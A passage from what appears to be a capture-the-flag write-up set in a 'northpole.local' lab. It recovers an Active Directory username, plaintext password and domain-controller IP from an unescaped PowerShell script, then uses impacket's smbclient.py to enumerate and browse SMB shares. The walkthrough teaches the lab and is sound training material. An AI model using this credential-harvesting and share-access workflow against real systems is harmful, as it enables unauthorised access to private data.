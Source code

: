 ```json
    "recoverableDays": 90
  },
  "tags": {}
}
```

After unescaping with Cyberchef:

```powershell
Import-Module ActiveDirectory
$UserName = "elfy"
$UserDomain = "northpole.local"
$UserUPN = "$UserName@$UserDomain"
$Password = ConvertTo-SecureString "J4`ufC49/J4766" -AsPlainText -Force
$DCIP = "10.0.0.53"
New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName
    -Surname "" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru
```

Now we have the domain controller's IP, username and password.

How do we find file shares?

```
// this should be run with a token for management

curl "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Storage/storageAccounts?api-version=2023-01-01" \
    -K cfg-management 

{"value":[]}
```

Nothing, maybe we should try and see what's at `northpole.local`.

Now I remember that we have access to impacket so can use it to enumerate all
accessible shares.

```
smbclient.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# password has a / so we need to wrap it in single quotes.

$ smbclient.py northpole.local/elfy:'J4`ufC49/J4766'@10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
ADMIN$
C$
D$
FileShare
IPC$
NETLOGON
SYSVOL

# use FileShare
# ls
drw-rw-rw-          0  Wed Dec 13 01:20:33 2023 .
drw-rw-rw-          0  Wed Dec 13 01:20:30 2023 ..
-rw-rw-rw-     701028  Wed Dec 13 01:20:33 2023 Cookies.pdf
-rw-rw-rw-    1521650  Wed Dec 13 01:20:33 2023 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Wed Dec 13 01:20:33 2023 SignatureCookies.pdf
drw-rw-rw-          0  Wed Dec 13 01:20:33 2023 super_secret_research
-rw-rw-rw-        165  Wed Dec 13 01:20:33 2023 todo.txt

# cd super_secret_research
```